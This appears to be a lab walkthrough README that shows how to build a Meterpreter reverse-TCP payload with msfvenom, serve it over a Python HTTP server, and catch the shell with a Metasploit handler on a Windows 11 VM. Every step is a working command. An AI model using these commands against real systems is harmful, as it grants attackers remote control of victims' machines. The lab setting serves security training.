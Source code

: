 # Windows 11 Meterpreter Payload Demonstration

### Objective:

Demonstrate the process of creating, delivering, and executing a malicious payload to establish remote access/control to a Windows 11 machine.

### Test Environment:

The simulated test environment consists of two virtual machines:
* **Kali Linux VM:** Acts as the attacker machine.
* **Windows 11 VM:** Serves as the target machine.

### Tools:

* **VMware**
* **Kali Linux**
* **Metasploit**


## Steps

### 1. Obtain host IP address

```
ifconfig
```

### 2. Payload Creation with MSFvenom

MSFvenom is a component of the Metasploit framework used to create payloads for the exploitation of target devices.

The payload created will execute as an `.exe` file named “plague”. The `plague.exe` file is configured with the Kali Linux machine’s IP (LHOST) and listening port (LPORT). When executed in the target machine, the file will connect to our Kali Linux machine to establish a bridge between our target and attacking machine.

**Payload Creation Command:**
``` 
msfvenom -p windows/x64/meterpreter\_reverse\_tcp \\

LHOST=<IP-ADDRESS> \\

LPORT=1122 \\

\-f exe \\

\-o plague
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

### 3. Create Python Webserver for Payload Delivery

To transfer the malicious plague.exe file to our target, I will utilize a python server created on my local subnet. Real world scenarios would involve social engineering, cross-site scripting (XSS), phishing, etc.

**Initiate the Python 3 HTTP Server on Port 8080:**
```
python3 -m http.server 8080
```

### 4. Configuring Metasploit Handler

When our payload is deployed, our Kali Linux machine will need to be ready to accept the incoming connection from our payload. To receive the incoming connection, we will configure a Metasploit handler.

**Launch Metasploit:**
```
sudo msfconsole
```

**Initiate Handler:**

The handler will listen for incoming connections from the payload.

```
use exploit/multi/handler
```

### 5. Define Expected Payload

The handler is configured to the correct specifications of our payload and target machine. Our target machine is a Windows 11 machine running on 64-bit OS with payload communication from a meterpreter\_reverse\_tcp payload

**Set Handler Specifications:**

```
set payload windows/x64/meterpreter\_reverse\_tcp

options
```

Executing the options command will display the parameters for the handler. To ensure proper connection, we will need to configure the parameters to our plague.exe payload.

**Set the Listening Host and Port:**

```
set LHOST <ip-address>

set LPORT 1122
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

### 6. Execute Exploit

```
exploit
```

### 7. Payload Delivery and Execution

From the Windows 11 target machine, we must navigate to our Python 3 HTTP server.

**Input Address to HTTP Server:**

```
<ip-address>:8080
```

*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

Click `plague.exe` to download the payload onto the target system and run the payload.

### 8. Session Confirmation and Control

Upon successful execution of the `plague.exe` payload on the Windows 11 target, a **Meterpreter session** is established on the attacking Kali Linux machine. Control has now been established - granting command-line interface (CLI) and system access to the target machine.
